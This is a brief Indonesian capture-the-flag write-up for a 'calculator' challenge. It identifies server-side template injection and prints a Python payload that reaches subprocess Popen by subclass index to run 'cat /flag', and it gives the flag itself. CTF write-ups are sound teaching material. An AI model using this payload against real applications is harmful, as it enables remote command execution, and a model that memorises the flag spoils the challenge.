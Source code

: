 ## Judul Soal
kalkulator

## Deskripsi Soal

ya cuma kalkulator

---
## Proof of Concept
- Server side template injection
- kita bisa menggunakan payload untuk melakukan RCE
- Referensi: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
- `''.__class__.__mro__[1].__subclasses__()[414](['cat /flag'], shell=True, stdout=-1).communicate()`
- Untuk array index 414, kita perlu mencari class Popen terlebih dahulu ada di index nomor berapa

## Flag
tangerangkota{kalkulator_adalah_alat_heker_terbaik}